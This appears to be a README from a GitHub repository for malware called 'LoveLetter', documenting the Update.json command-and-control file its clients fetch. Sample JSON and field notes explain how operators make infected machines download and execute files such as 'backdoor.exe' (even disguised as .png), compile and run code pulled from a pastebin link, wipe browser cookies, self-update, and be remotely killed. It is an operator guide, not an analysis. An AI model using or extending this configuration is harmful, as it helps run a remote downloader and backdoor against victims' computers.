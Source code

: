 <div>
  <img width="150" align="right" src="../Repo/Images/2.gif" alt="LoveLetter"/>
  <br>
  <h1>⚙️ Configuration</h1>
  <p>Update.json is being fetched by the client to check for any server commands. You can update it to your liking.</p>
</div>

## Sample 
```json
{
  "updateVersion": 0,
  "letterVersion": 0.1,
  "downloadLink": "http://0.0.0.0/new_tll_update.exe",
  "killSelf": false,
  "clearCookies": false,
  "runnables": [
    {
      "item1": "http://0.0.0.0/backdoor.exe",
      "item2": 0.1
    }
  ],
  "snippets": [
    {
      "item1": "https://pastebin.com/raw/cBnRs3v7",
      "item2": 0.1
    }
  ]
}
```

## To be written...
> - Update Version ```updateVersion```

The version of the Update.json, always increment this whenever you updated the file, else the letter wont bother to load the json if the value is the same as the last.

> - Letter Version ```letterVersion```

The current latest version of the letter, increment this if you want the letter to download and execute ```downloadLink```.

> - Download Link ```downloadLink```

Direct download link to the newest executable.

> - Kill Self ```killSelf```

Put this to true whenever you want to remotely switch of all letters.

> - Clear Cookies ```clearCookies```

If true, it will clear all cookies and cache of ~~supported~~ popular browsers.

> - Runnables ```runnables```

Contains direct links and versions of executables to be downloaded and executed. Whenever an executable is updated please increment ```item2``` (it's named that way due to how Tuples behave in C#) doing so will trigger the letter to redownload the executable, else ignored. Ex.

```json
  "runnables": [
    {
      "item1": "http://0.0.0.0/backdoor.exe", // direct link to download
      "item2": 2.0 //version
    },
    {
      "item1": "http://0.0.0.0/evil_program.png", // extensions dont matter, it will be ran as executables anyways
      "item2": 0.1
    }
```

> - Snippets ```snippets```

Direct links to any text files that will be compiled as executables and ran. Ex.

```json
 "snippets": [
    {
      "item1": "https://pastebin.com/raw/cBnRs3v7", // the text inside this bin will be compiled
      "item2": 0.1
    },
    
    {
      "item1": "https://your-link-to-source-code.com/not-evil.txt",
      "item2": 0.1
    }
```
TODO: Create a panel.
<br/>
Goodluck 💖